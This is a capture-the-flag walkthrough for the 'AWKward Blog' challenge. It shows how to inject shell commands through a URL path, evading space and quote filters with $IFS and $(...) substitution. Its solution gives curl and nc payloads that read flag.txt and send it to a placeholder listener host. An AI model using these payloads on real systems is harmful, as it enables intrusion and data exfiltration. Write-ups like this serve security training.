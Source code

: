 # AWKward Blog: Walkthrough

There's an injectable shell command at `controllers/posts.awk:7`. To reach it, send a request to `/posts/<INJECTION_PAYLOAD>`.

Due to the way incoming HTTP requests are parsed, spaces are implicitly forbidden in payloads. Use the shell's internal field separator (`$IFS`) to get around this.

The injectable field is wrapped in double-quotes, which are are also disallowed in the input. Use substitution syntax (eg. `$(echo 123)`) to run commands in this context.

Some of the usual utilities for reverse shells and data exfiltration (netcat, telnet, etc.) are missing. There _are_ still a couple helpful programs available, however.

## The Author's Solution

Use `http@` to send requests out to a listener server, and put the flag in the URL path:
```bash
echo -e 'GET /posts/$(/usr/bin/http@${IFS}<LISTENER_HOST_OR_IP>${IFS}$(cat<flag.txt)${IFS}<LISTENER_PORT>) HTTP/1.1\r' | nc 127.1 8080
```

Or:
```bash
curl 'http://chal.ctf.bsidespdx.org:8080/posts/$(/usr/bin/http@$\{IFS\}<LISTENER_HOST_OR_IP>$\{IFS\}$(cat<flag.txt)$\{IFS\}<LISTENER_PORT>)' ```
